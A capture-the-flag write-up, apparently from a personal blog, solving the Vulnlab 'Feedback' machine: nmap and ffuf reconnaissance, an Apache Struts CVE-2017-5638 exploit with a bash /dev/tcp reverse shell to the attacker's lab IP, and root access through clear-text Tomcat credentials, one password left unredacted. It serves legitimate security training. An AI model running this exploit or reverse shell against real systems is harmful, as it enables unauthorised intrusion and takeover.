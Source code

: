 ```yaml
---
title: "Vulnlab - Feedback [Easy]"
category: ctf-writeup
layout: post
---
```


| Name          | OS             | Difficulty                             |
| ------------- | -------------- | -------------------------------------- |
| **Feedback** | Linux | <span style="color:green;">Easy</span> |

## Summary

We would find an Apache Tomcat server running, where we can fuzz it to find an endpoint called `/feedback` which then we can exploit a vulnerability in Apache Struts for gaining our initial foothold. Then we would find clear-text credentials while analyzing the Apache Tomcat's files which will give us the root access.

## Initial Foothold

We would start with a nmap scan:

```
syl@sylsec:~/vulnlab/Feedback$ sudo nmap -sS -sU 10.10.80.221 --min-rate 10000 --open -p-   
[sudo] password for syl: 
Starting Nmap 7.80 ( https://nmap.org ) at 2023-12-26 16:40 EET
Warning: 10.10.80.221 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.80.221
Host is up (0.17s latency).
Not shown: 65456 open|filtered ports, 52483 closed ports, 13129 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
```

Which would give us the SSH service and some kind of HTTP website, upon visiting the website we would find that this is the default installation for Apache Tomcat. We have free access to the examples of the Apache Tomcat, but not to the `/manager`.

>This initially made me think that we would have something to do with the sessions because we can edit it, so I went to fuzz the website further.

We can fuzz the website for any additional directories:

```
syl@sylsec:~/tools$ ffuf -w $commontxt -u http://10.10.80.221:8080/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.80.221:8080/FUZZ
 :: Wordlist         : FUZZ: /home/syl/tools/lists/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

docs                    [Status: 302, Size: 0, Words: 1, Lines: 1]
examples                [Status: 302, Size: 0, Words: 1, Lines: 1]
feedback                [Status: 302, Size: 0, Words: 1, Lines: 1]
favicon.ico             [Status: 200, Size: 21588, Words: 19, Lines: 22]
host-manager            [Status: 302, Size: 0, Words: 1, Lines: 1]
manager                 [Status: 302, Size: 0, Words: 1, Lines: 1]
```

As we can see, we have the `/feedback` route, that consisted of two input fields, one for the name and one for the feedback.

![[Pasted image 20231226190051.png]]

We can inspect the source code of the page and there we can find this HTML comment:

```
<!-- Build with Java, Struts2 & Log4J -->
```

We would then use Google to find some exploit related to those technologies, and we would find that the website is actually vulnerable to **CVE-2017-5638,** which is related to Apache Struts, there is a [PoC of that exploit in GitHub](https://github.com/mazen160/struts-pwn). We can setup a listener for the port `4444` and run the exploit:

```
syl@sylsec:~/vulnlab/Feedback/exploits/struts-pwn$ python3 struts-pwn.py --url 'http://10.10.80.221:8080/feedback/logfeedback.action' -c 'bash -i >& /dev/tcp/10.8.0.107/4444 0>&1'

[*] URL: http://10.10.80.221:8080/feedback/logfeedback.action
[*] CMD: bash -i >& /dev/tcp/10.8.0.107/4444 0>&1
```

That would give us the initial shell.

## Privilege Escalation

We can start enumerating the system from our reverse shell with `linpeas`, and we would also need to spawn a stable `tty` shell, I used python for that matter.

```
tomcat@ip-10-10-10-7:/tmp$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Upon carefully reviewing the output from `linpeas`, we would find the configuration for Apache Tomcat containing clear-text credentials.

```
/opt/tomcat/conf/tomcat-users.xml
<user username="admin" password="H2R<REDACTED>" roles="manager-gui"/>
<user username="robot" password="H2R<REDACTED>" roles="manager-script"/>
```

We can try to switch to the user `ubuntu` which doesn't work, but the user `root` does.

```
tomcat@ip-10-10-10-7:/tmp$ su ubuntu
su ubuntu
Password: H2RR3rGDrbAnPxWa

su: Authentication failure
tomcat@ip-10-10-10-7:/tmp$ su root
su root
Password: H2RR3rGDrbAnPxWa

root@ip-10-10-10-7:/# whoami
whoami
root
root@ip-10-10-10-7:/# cat /root/root.txt
cat /root/root.txt
VL{<REDACTED>}
```
